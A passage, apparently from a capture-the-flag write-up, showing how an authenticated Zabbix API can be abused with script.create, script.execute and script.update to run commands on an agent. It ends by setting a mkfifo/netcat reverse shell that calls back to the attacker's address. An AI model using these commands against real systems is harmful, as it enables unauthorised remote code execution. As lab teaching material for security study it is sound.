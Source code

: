 Now I’ll create a script to do what I want, with [script.create](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/create). I’ll start with a simple `whoami`. I’ll need to give the api three parameters:
- `"command": "whoami"` - the command to run
- `"name": "test"` - can be anything
- `"execute_on": 0` - where to run the script. If I don’t specify this, the default is 1, which means it will run on the Zabbix server. But I want to run it at the Zabbix agent, so I’ll pass 0. A lot of people (myself included) got stuck in the Zabbix container because this is an optional parameter, and if you don’t know to set it, you’ll not understand why it’s not putting you where you want to be.

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.create", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"command": "whoami", "name": "test", "execute_on": 0}}' | jq .
{
  "jsonrpc": "2.0",
  "result": {
    "scriptids": [
      "4"
    ]
  },
  "id": 1
}

```

I get back the scriptid of 4. Now I’ll run that with [script.execute](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/execute):

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": 10106, "scriptid": 4}}' | jq .
{
  "jsonrpc": "2.0",
  "result": {
    "response": "success",
    "value": "zabbix"
  },
  "id": 1
}

```

I can see the command ran, and the value that came back was `zabbix`. Nice. I’ll update my script to do something more interesting using the [script.update](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/update) api:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"scriptid": 4, "command": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f"}}' | jq -c .
{"jsonrpc": "2.0","result": {"scriptids": [4]},"id": 1}

```
